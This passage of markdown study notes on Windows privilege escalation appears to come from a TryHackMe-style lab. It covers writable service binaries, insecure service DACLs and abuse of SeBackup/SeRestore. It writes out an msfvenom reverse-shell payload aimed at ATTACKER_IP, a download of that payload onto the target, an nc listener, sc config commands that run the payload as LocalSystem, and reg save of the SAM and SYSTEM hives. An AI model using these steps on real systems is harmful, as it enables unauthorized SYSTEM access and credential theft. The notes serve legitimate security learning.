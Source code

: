 	- So, if an attacker creates a `Disk.exe` file they will force the service to run the malicious executable rather than the actual one.
	- While this looks easy, but most of the service executables will be installed under `C:\Program Files` or `C:\Program Files (x86)` by default, which isn't writable by unprivileged users.
	- In some cases, the installers change the permission on the installed folders making the service vulnerable, and sometimes an administrator decides to install the service binaries in a non-default path, and if this path is world-writable, the vulnerability can be exploited.
	- **Steps**
		- Query the service using `sc qc <service-name>` make note of the `BINARY_PATH_NAME` which gives the path of the executable and `SERVICE_START_NAME` which shows the user that the service uses.
		- Get the permissions of the executable using `icacls <path-to-exe>`
		- Generate an exe-service payload using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe-service -o rev-svc2.exe`.
		- Serve the generated file using an python web server `python3 -m http.server`.
		- From the target machine, download the file using `wget http://<attacker-ip>:8000/rev-svc2.exe -O rev-svc2.exe`.
		- Start a reverse listener on the attack machine using `nc -lvnp 4444`.
		- Move the payload to the location of the service binaries using`move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe`.
		- `icacls <exe-file-name> /grant Everyone:F` to give full permissions to everyone.
		- Restart the service using `sc stop "disk sorter enterprise"` and then `sc start "disk sorter enterprise"`.
- #### *Insecure Service Permissions*
	- Might have a chance of taking an advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted.
	- Should the service's DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service.
	- This allows you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.
	- Use the [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the `Sysinternals` suite to check for a service DACL  `accesschk64.exe -qlc <service-name>`.
	- **Steps**
		- Use `accesschk64.exe -qlc <service-name>` to check the DACL of the service.
		- Generate an exe-service payload using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe-service -o rev-svc3.exe`.
		- Serve the generated file using an python web server `python3 -m http.server`.
		- Start a reverse listener on the attack machine using `nc -lvnp 4444`.
		- From the target machine, download the file using `wget http://<attacker-ip>:8000/rev-svc3.exe -O rev-svc3.exe`.
		- Move the payload to any location.
		- `icacls <exe-file-name> /grant Everyone:F` to give full permissions to everyone.
		- Change the service's associated executable and account with `sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`.
		- Restart the service using `sc stop THMService` and then `sc start THMService`.
## *Dangerous Privileges*
- Check privileges of user using `whoami /priv`.
- A list of exploitable privileges can be found on [Priv2Admin](https://github.com/gtworek/Priv2Admin).
- #### *SeBackup / SeRestore*
	- The SeBackup and SeRestore privileges allow users to read and write to any file in the system ignoring any DACL.
	- These were created to allow certain users to perform backups from a system without full administrative privileges.
	- Many techniques could abuse this to escalate privileges, one of which is by copying the SAM and SYSTEM registry hives to extract the local administrator's password hash.
	- Backup the SAM and SYSTEM hashes using `reg save hklm\system C:\Users\THMBackup\system.hive` and `reg save hklm\sam C:\Users\THMBackup\sam.hive`.
	- Copy these files using any transfer method, like using impacket's `smbserver.py` to start a simple SMB server.
		- Create a folder on attacking machine, here named `share`.
